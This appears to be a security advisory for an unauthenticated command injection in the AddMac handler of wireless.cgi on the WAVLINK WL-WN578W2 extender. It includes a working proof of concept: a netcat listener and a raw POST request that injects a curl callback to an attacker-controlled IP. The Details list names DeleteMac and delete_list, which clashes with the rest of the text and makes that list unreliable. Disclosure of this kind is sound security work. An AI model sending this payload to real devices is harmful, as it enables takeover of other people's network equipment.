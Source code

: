 # WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (wireless.cgi AddMac)

PS:



1.  Use physical WAVLINK WL-WN578W2 for testing (QEMU simulation is difficult).

2.  **No authentication required**: No cookie or login credentials needed—vulnerability exploitable directly.

## Overview

An unauthenticated command injection vulnerability exists in the `AddMac` action of `/cgi-bin/wireless.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `macAddr` parameter is unsanitized and directly concatenated into system commands. Attackers can send POST requests with `page=AddMac` and inject arbitrary commands via `macAddr`—no login required—to execute operations.



![Vulnerability Flow: Unauthenticated Injection](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/wireless.cgi` (POST method, no login required)

*   **Trigger Condition**: Request parameter `page=DeleteMac`

*   **Vulnerable Parameter**: `delete_list`

*   **Vulnerability Type**: Unauthenticated Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute commands

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **No Effective Auth Check**: The `ftext` function’s authentication logic (via `sub_404DBC()`) is ineffective, allowing unauthenticated requests to proceed.

2.  **Action Routing**: When `page=AddMac` is parsed, the `sub_4030F8` function is called to process the request.

3.  **Unsanitized Injection**: `macAddr` is extracted and directly concatenated into the command `addmac %s` via `sprintf`, with no filtering of separators (e.g., `;`). This allows unauthenticated attackers to inject arbitrary commands.



![Vulnerability Code Snippet](./imgs/2.png)



![Vulnerability Code Snippet](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` via `macAddr`

No login or cookie needed.

#### 1. Start Netcat Listener

On attacker machine (IP: 192.168.10.154):



```
nc -lvnp 1234
```



#### 2. Send Unauthenticated POST Request



```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: wifi.wavlink.com
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

page=AddMac&addMac=&addName=&macAddr=;curl http://192.168.10.154:1234
```

#### 3. Verify Execution

Netcat receives request from device, confirming command injection success:
![Netcat Listener](./imgs/4.png)


